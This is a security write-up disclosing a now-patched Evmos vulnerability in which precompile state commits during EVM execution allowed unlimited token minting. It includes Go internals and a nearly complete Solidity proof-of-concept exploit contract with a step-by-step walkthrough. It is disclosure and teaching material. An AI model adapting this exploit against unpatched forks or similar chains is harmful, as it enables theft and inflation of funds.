

# Evmos Precompile State Commit Infinite Mint

This post details a vulnerability we identified in Evmos, an EVM-compatible Cosmos chain, that could have been exploited to mint infinite amounts of $EVMOS tokens. Due to EVM state commits during precompile execution, it was possible to cause a mismatch between the state held within EVM and the Bank module, resulting in inflated contract balances.

We privately disclosed this vulnerability to Evmos, who issued a [patch](https://github.com/evmos/evmos/commit/bb2d504eec9078d6eff6981fc0cb214e8a3ca496#diff-3bf1e8abca45467935cdc326b52a8a99295267b24b6b67f4988d63577df11ea0). The security advisory can be viewed [here](https://github.com/evmos/evmos/security/advisories/GHSA-68fc-7mhg-6f6c). Evmos informed us that they were aware of the issue before the disclosure and had taken precautionary measures to prevent potential exploitation while preparing a fix.

## Background

During smart contract execution in an EVM environment, multiple important mechanisms ensure that the state is managed correctly, especially in the event of reverts. The net result should be a new state that can be committed and used by the following transaction. For this post, the following EVM mechanisms are of particular interest:

* **Cached vs Permanent Storage** — The labeling is perhaps a bit contrived, but essentially, EVM tracks state modifications in memory (referred to as cached storage and represented by the [s.stateObjects](https://github.com/evmos/evmos/blob/c6f7fcf208666ab8ca57e0ccff712cf8920a4e7d/x/evm/statedb/statedb.go#L43) mapping) and only interacts with permanent storage (the Evmos Keeper) when committing state differences or if it needs to access a state object not present in cached storage.
* **Snapshots** — Snapshots are taken whenever a new execution context is created during operations such as calling (call, delegatecall and staticcall) or creating (create and create2) smart contracts. Whenever the context reverts, EVM will revert the cached state to the last snapshot.
* **Journal** — The journal is a vital part of the snapshot mechanism. Each state-changing operation, such as storage or balance updates, is added to the journal to be inversely applied when a revert occurs, up to and including the first journal entry created after the latest snapshot.

The above mechanisms work together to produce a net delta of changes to permanent storage that is ultimately committed with a call to [StateDB.Commit()](https://github.com/evmos/evmos/blob/c6f7fcf208666ab8ca57e0ccff712cf8920a4e7d/x/evm/statedb/statedb.go#L445).

## Snapshots and the Journal

The state DB contains a single “journal” that contains all state changes made in the current transaction. When a new execution context is created, a call is made to [StateDB.Snapshot()](https://github.com/evmos/evmos/blob/c6f7fcf208666ab8ca57e0ccff712cf8920a4e7d/x/evm/statedb/statedb.go#L420). This adds a new revision, which holds a revision ID and an index into the journal where the first journal entry of the new snapshot would exist, to an array of valid revisions.

```golang
// Snapshot returns an identifier for the current revision of the state.
func (s *StateDB) Snapshot() int {
	id := s.nextRevisionID
	s.nextRevisionID++
	s.validRevisions = append(s.validRevisions, revision{id, s.journal.length()})
	return id
} 
```

Using this information, `StateDB.RevertToSnapshot(revid int)` can search through the valid revisions until it finds a revision with ID `revid`. It then instructs the journal to undo all state changes made after `journalIndex` in its array of entries by calling `journal.Revert(s, snapshot)`.

```golang
// RevertToSnapshot reverts all state changes made since the given revision.
func (s *StateDB) RevertToSnapshot(revid int) {
	// Find the snapshot in the stack of valid snapshots.
	idx := sort.Search(len(s.validRevisions), func(i int) bool {
		return s.validRevisions[i].id >= revid
	})
	// ...
	
	snapshot := s.validRevisions[idx].journalIndex

	// Replay the journal to undo changes and remove invalidated snapshots
	s.journal.Revert(s, snapshot)
	s.validRevisions = s.validRevisions[:idx]
}
```

When the journal’s Revert() function is called, it then traverses the list of journal entries in reverse order, starting with the most recent entry, and 1) calls Revert(stateDB) on each journal entry and 2) Decreases the dirties reference counter for the address. dirties maps modified state object addresses to reference counters and, if the count reaches zero, the address is removed from the mapping. This is later used to ensure that only modified addresses have their states committed to permanent storage.

```golang
// Revert undoes a batch of journalled modifications along with any Reverted
// dirty handling too.
func (j *journal) Revert(statedb *StateDB, snapshot int) {
	for i := len(j.entries) - 1; i >= snapshot; i-- {
		// Undo the changes made by the operation
		j.entries[i].Revert(statedb)

		// Drop any dirty tracking induced by the change
		if addr := j.entries[i].Dirtied(); addr != nil {
			if j.dirties[*addr]--; j.dirties[*addr] == 0 {
				delete(j.dirties, *addr)
			}
		}
	}
	j.entries = j.entries[:snapshot]
}
```

### Building and Reverting the Journal

The [journal](https://github.com/evmos/evmos/blob/c6f7fcf208666ab8ca57e0ccff712cf8920a4e7d/x/evm/statedb/journal.go#L40) is made up of entries that define state changes that have been made. The different entries are described [here](https://github.com/evmos/evmos/blob/c6f7fcf208666ab8ca57e0ccff712cf8920a4e7d/x/evm/statedb/journal.go#L94), each implementing the [JournalEntry](https://github.com/evmos/evmos/blob/c6f7fcf208666ab8ca57e0ccff712cf8920a4e7d/x/evm/statedb/journal.go#L29) interface. The interface defines two functions:

* `Revert(*StateDB)`: If called on an entry, it will undo its change in the state DB.
* `Dirtied() *common.Address`: returns the address that was impacted by the change.

To illustrate how the journal is built, and then later reverted, consider the following example:

```solidity
contract A {
	function entryPoint() public {
		B b = new B();
		b.externalFunc{value: 1 ether}()
	}
}

contract B {
	uint counter = 0;
	function externalFunc() 
		public payable
	{
		counter++;
		// revert();
	}
}
```

<p align="center">
  
</p>

With the above in mind, if a revert occurred after counter++, EVM would revert revid 1, and traverse the journal in reverse order until balanceChange(A, -1 ether) is undone. If the calling function, A::entryPoint(), does not handle the revert through a try/catch or low-level solidity call, EVM will revert revid 0, undoing the createObjectChange(B) entry. Excerpts of the balanceChange and createObjectChange Revert() interface implementations are shown below. It can be seen that the balanceChange Revert() function simply sets the account’s balance to what it was previously.

```golang
func (ch balanceChange) Revert(s *StateDB) {
	s.getStateObject(*ch.account).setBalance(ch.prev)
}

func (ch createObjectChange) Revert(s *StateDB) {
	delete(s.stateObjects, *ch.account)
}
```

**Of particular interest** is what happens when the contract creation is reverted. The createObjectChange Revert() function deletes the contract account from the s.stateObjects mapping. In the calling code, journal.Revert(), the dirties reference counter also reaches zero, removing it from the list of dirties. As will be shown later, this primitive was particularly useful for exploitation.

## Committing the State

Below is an excerpt of StateDB.Commit(). When committing the state, the journal is first consulted for its list of dirties [1] (i.e., addresses that have been modified by the transaction), after which the object is read from the s.stateObjects mapping [2]. This ensures that only state objects modified during this transaction are committed.

```golang
// Commit writes the dirty states to keeper
// the StateDB object should be discarded after committed.
func (s *StateDB) Commit() error {
	for _, addr := range s.journal.sortedDirties() { // [1]
		obj := s.stateObjects[addr] // [2]
		if obj.suicided {
			if err := s.keeper.DeleteAccount(s.ctx, obj.Address()); err != nil {
				return errorsmod.Wrap(err, "failed to delete account")
			}
		} else {
			if obj.code != nil && obj.dirtyCode {
				s.keeper.SetCode(s.ctx, obj.CodeHash(), obj.code)
			}
			if err := s.keeper.SetAccount(s.ctx, obj.Address(), obj.account); err != nil{
				return errorsmod.Wrap(err, "failed to set account")
			}
			for _, key := range obj.dirtyStorage.SortedKeys() {
				dirtyValue := obj.dirtyStorage[key]
				originValue := obj.originStorage[key]
				// Skip noop changes, persist actual changes
				transientStorageValue, ok := obj.transientStorage[key]
				if (ok && transientStorageValue == dirtyValue) ||
					(!ok && dirtyValue == originValue) {
					continue
				}
				s.keeper.SetState(s.ctx, obj.Address(), key, dirtyValue.Bytes())

				// Update the pendingStorage cache to the new value.
				// This is specially needed for precompiles calls where
				// multiple Commits calls are done within the same transaction
				// for the appropriate changes to be committed.
				obj.transientStorage[key] = dirtyValue
			}
		}
	}
	return nil
}
```

In the above code, permanent storage is written to by calls to s.keeper.*. For example, s.keeper.SetAccount() stores the account’s final balance and s.keeper.SetState() sets the final storage value at a given key of an account.

## Vulnerability Details and Exploitation

Evmos included a call to StateDB.Commit() whenever an Evmos-specific precompile was called (see examples in the [Distribution](https://github.com/evmos/evmos/blob/c6f7fcf208666ab8ca57e0ccff712cf8920a4e7d/precompiles/distribution/distribution.go#L103) and [Staking](https://github.com/evmos/evmos/blob/c6f7fcf208666ab8ca57e0ccff712cf8920a4e7d/precompiles/staking/staking.go#L102) precompiles). In doing so, it was possible to commit some states to permanent storage and, with some journal feng shui, omit portions of the state to cause a mismatch between cached and permanent storage.

The following exploit proof-of-concept abuses this to exponentially mint $EVMOS tokens.

```solidity
contract InfiniteMint {
    uint counter = 0;

    constructor() payable {}

    function exploit() external {
        counter++;

        for (uint i = 0; i < 20; i++) {
            try InfiniteMint(payable(address(this))).transferFunds(
	            bytes32(counter),
	            address(this).balance) {} // [1]
            catch {
                address t = predictAddress(bytes32(counter)); // [5]
                Target(t).withdraw(); // [6]
            }
            counter++; // [7]
        }

    }

    function transferFunds(bytes32 salt, uint v) external {
        new Target{value: v, salt: salt}(); // [2]

        DISTRIBUTION_CONTRACT.delegationTotalRewards(address(this)); // [3]

        revert(); // [4]
    }

    // predictAddress() and receive() functions omitted for brevity
}

contract Target {

    constructor() payable {}

    function withdraw() external {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

* [1] The InfiniteMint contract calls its transferFunds() function externally, creating a new call context and snapshot.
* [2] In transferFunds(), a new Target contract with a salt counter and value v is created.
* [3] A call is made to the Distribution precompile’s delegationTotalRewards() function. This triggers a call to StateDB.Commit(), which commits the current state to permanent storage. This essentially includes creating a new Target contract and, importantly, the balance it holds (v).
* [4] The call is reverted. This should undo all of these changes by restoring the cached, in-memory snapshot recorded in the journal just before transferFunds() was called. HOWEVER, this is where a critical mismatch occurs
Firstly, the rollback does not reflect the changes made to permanent storage. As a result, the newly-created Target contract still exists in permanent storage and holds the balance transferred to it.
Secondly, as mentioned earlier, since the contract creation happened post-snapshot, the contract’s entry in the journal’s dirties mapping is removed after the revert. Additionally, the cached storage post-revert has no record of it and can’t undo the change during a final commit.
Lastly, the balance transferred to Target is returned to the InfiniteMint contract. The result is that Target still exists in permanent storage with the balance it was created with, and the InfiniteMint contract retains its original balance.
* [5] Calculate the address of the created Target contract,
* [6] withdraw its balance and
* [7] update the salt to ensure no creation collisions occur when the exploit is attempted again.

Doing this with an initial balance of 1 ether, for 20 iterations, a final balance of 1 ether * 2^20 = 1048576 ether is obtained.

## Conclusion

The proof of concept illustrates the most direct method of atomically exploiting the issue for monetary gain. Alternative attacks that were conceived during the investigation of this vulnerability include:

* Arbitrarily inflating the community pool balance.
* Arbitrarily inflating the balance of a validator.

This particularly interesting bug showcases challenges in custom additions or modifications to [Geth](https://github.com/ethereum/go-ethereum). When introducing execution runtimes, such as EVM or CosmWasm, into Cosmos-based blockchains, ensuring proper state synchronization between the execution runtime and Cosmos modules is particularly important. For example, Evmos switches contexts between the EVM runtime and Cosmos modules through precompiles, like the Distribution or Staking precompiles. In the case of Evmos, these Cosmos modules needed the most up-to-date information related to balances, as they can’t access the EVM state database directly.